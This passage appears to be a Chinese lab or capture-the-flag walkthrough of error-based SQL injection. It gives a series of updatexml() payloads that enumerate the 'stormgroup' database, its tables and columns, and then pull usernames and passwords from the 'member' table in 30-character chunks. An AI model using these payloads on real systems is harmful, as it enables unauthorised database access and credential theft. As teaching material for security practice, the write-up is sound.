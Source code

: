 查询当前数据库：

```plain
id=1' AND updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757390404208-5de17d20-b8d4-4812-8d47-15c859864252.png)

可见当前数据库是`<font style="color:rgb(0, 0, 0);">stormgroup</font>`<font style="color:rgb(0, 0, 0);">。接着查询该库对应的表：</font>

```plain
id=1' AND updatexml(1,concat(0x7e,(select group_concat(TABLE_NAME) from information_schema.TABLES WHERE TABLE_SCHEMA='stormgroup'),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757390677679-62b52125-83aa-42d0-96fe-b128807b53dd.png)

继续查询`member`表对应的字段：

```plain
id=1' AND updatexml(1,concat(0x7e,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS WHERE TABLE_SCHEMA='stormgroup' AND TABLE_NAME='member'),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757390877682-dd3a266d-9882-48a1-a8c4-6531f789d9e7.png)

继续查询字段具体的内容：

```plain
id=1' AND updatexml(1,concat(0x7e,(select group_concat(name,password,status) from stormgroup.member),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757398945463-03abf47f-67a8-42e4-a828-378f9ed33a5e.png)

可以看到其实显示不全，这是因为`updatexml()`最多只能输出32字节，可以用`mid`之类的函数分段回显拿到完整数据：

```plain
id=1' AND updatexml(1,concat(0x7e,mid((select group_concat(name,password,status) from stormgroup.member),1,30),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757399082972-7030b160-a431-4170-a6cd-aec2a3ffed30.png)

```plain
id=1' AND updatexml(1,concat(0x7e,mid((select group_concat(name,password,status) from stormgroup.member),31,30),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757399139990-78f93a6f-0148-4e20-9293-55392c36e04e.png)

```plain
id=1' AND updatexml(1,concat(0x7e,mid((select group_concat(name,password,status) from stormgroup.member),61,30),0x7e),1)--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757399219813-edbe060b-506e-4c1b-8c9b-3ce6f0f61be9.png)
